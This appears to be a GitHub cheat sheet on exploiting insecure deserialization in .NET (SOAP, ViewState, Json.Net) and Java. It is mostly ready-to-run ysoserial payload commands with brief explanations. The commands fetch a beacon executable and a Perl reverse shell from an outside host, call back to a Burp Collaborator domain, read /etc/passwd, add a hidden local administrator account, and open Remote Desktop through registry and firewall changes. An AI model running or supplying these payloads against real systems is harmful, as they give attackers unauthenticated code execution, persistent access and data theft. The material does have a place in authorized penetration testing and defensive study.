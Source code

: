 #  Insecure deserialization Vulnerability
Any Insecure deserialization vulnerability may occur when serialized object are allowed to alter.subconsequently,deserialization vulnerabilities could allow attackers to perform remote code execution without authentication in the context of application server and gaining access to unauthorized data.Serialized objects are generally sent across is base64 format used in web applications.Technically Serialization is the process of converting the object and class into a binary so that save into disk. on the other hand,deserialization is the process of converting the Object(Bring Back to original Object at the code stage)..

# SOAP NET Deserialization
```
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c ipconfig" -o raw
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c hostname" -o raw
ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c "cmd /c certutil.exe -urlcache -split -f  http://192.168.100.199\beacon.exe C:\\Users\\Public\\beacon.txe" -o raw
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f"

ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
"
```
# Java Deserialization 

The deserialization vulnerabilities may occur when deserialize convert to an object any serialized stream without first validating in the Java Base Application.
due to the combination of two rudimentary implementations flaws.The deserialization vulnerabilities are considered difficult to make it secure in the application for develops.
```

java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "wget sdfsfdoztjxibkocen698fskck0ehs8yymn.burpcollaborator.net"
java -jar ysoserial-0.0.5-all.jar CommonsCollections1 'wget http://192.168.100.199:1010/reverse-shell.pl -O /tmp/shell.pl' > perl-reverse-shell.pl.bin
java -jar ysoserial-0.0.5-all.jar CommonsCollections1 'cat /etc/passwd' > passwd.bin
```
# ViewState Deserialization 

view state is the technique used by an ASP.NET Web page to persist changes to the state of a Web Form across postbacks. By default.
technically ViewState is used to store user data on page at the time of post back of web page however ViewState does not hold the controls,it holds the values of controls.
When tthe page is accessed, the current state of the page and values that need to be retained during postback are serialized into base64-encoded strings and output in the ViewState hidden field or fields.

**It might be possible to execute arbitrary OS Command In the context of applicaiton server if MAC doesn't enforce to enable in the viewstate parameter.**

This format seems to be standardized for all Viewstate implementations in the ASP.Net Application.

* Base64 **Can be defined using EnableViewStateMac and ViewStateEncryptionMode attribute set to false**
* Base64 + MAC (Message Authentication Code) **Enabled Can be defined using EnableViewStateMac attribute set to true**
* Base64 + Encrypted **Can be defined using viewStateEncryptionMode attribute set to true**
```
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c certutil.exe -urlcache -split -f  http://192.168.100.199\beacon.exe C:\\Users\\Public\\beacon.exe"
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f"

ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes"
```
# Json Deserialization
```
ysoserial.exe -g WindowsIdentity -f Json.Net -c "ping 192.168.100.100" -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "cmd /c net user MeMe 123456!@ /add " -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "net localgroup administrators MeMe /add" -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "cmd /c netsh advfirewall firewall set rule group="remote desktop" new enable=Yes" -o base64
ysoserial.exe -g WindowsIdentity -f Json.Net -c "cmd /c reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f" -o base64

```


* Credit@https://book.hacktricks.xyz/pentesting-web/deserialization
* Credit@https://speakerdeck.com/pwntester/attacking-net-serialization?slide=5
* Credit@https://0xdf.gitlab.io/2020/02/15/htb-json.html
* Credit@https://notsosecure.com/remote-code-execution-via-php-unserialize/?utm_campaign=calap.co&utm_medium=referral&utm_source=calap.co
